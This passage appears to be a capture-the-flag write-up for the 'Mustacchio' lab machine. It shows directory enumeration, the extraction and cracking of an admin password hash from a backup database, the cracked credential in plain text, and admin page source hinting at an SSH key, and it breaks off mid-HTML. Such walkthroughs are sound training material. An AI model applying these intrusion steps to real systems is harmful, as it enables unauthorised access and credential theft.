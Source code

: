 ```console
[+] Timeout:                 10s
===============================================================
2022/10/13 17:02:55 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 313] [--> http://10.10.208.17/images/]
/custom               (Status: 301) [Size: 313] [--> http://10.10.208.17/custom/]
/robots.txt           (Status: 200) [Size: 28]                                   
/fonts                (Status: 301) [Size: 312] [--> http://10.10.208.17/fonts/] 
```
```console
❯ sqlite3 users.bak
SQLite version 3.39.2 2022-07-21 15:24:47
Enter ".help" for usage hints.
sqlite> .tables
TABLE  users
sqlite> SELECT * FROM users
   ...> ;
admin|1868e36a6d2b17d4c2745f1659433a54d4bc5f4b

```
On cracking the password on crackstation found credential as `admin:bulldog19`

### http://10.10.208.17:80
No login page found on the port it was just a template website

### http://10.10.208.17:8765
- Got a login page
- Logged in with the above credentials
- Success!
- Greeted with a textbox which prompts to enter a XML code
- On Reading page Source found that there is another `.bak` at `/auth/dontforget.bak` and an id_rsa file for user `barry`
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Mustacchio | Admin Page</title>
    <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.0.0-beta3/dist/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-eOJMYsd53ii+scO/bJGFsiCZc+5NDVN2yr8+0RDqr0Ql0h+rP48ckxlpbzKgwra6" crossorigin="anonymous">
    <link rel="stylesheet" href="assets/css/home.css">
    <script type="text/javascript">
      //document.cookie = "Example=/auth/dontforget.bak";
      function checktarea() {
      let tbox = document.getElementById("box").value;
      if (tbox == null || tbox.length == 0) {
        alert("Insert XML Code!")
      }
  }
</script>
</head>
<body>

    <!-- Barry, you can now SSH in using your key!-->

    <img id="folhas" src="assets/imgs/pexels-alexander-tiupa-192136.jpg" alt="">

    <nav class="position-fixed top-0 w-100 m-auto ">
        <ul class="d-flex flex-row align-items-center justify-content-between h-100">
            <li>AdminPanel</li>
```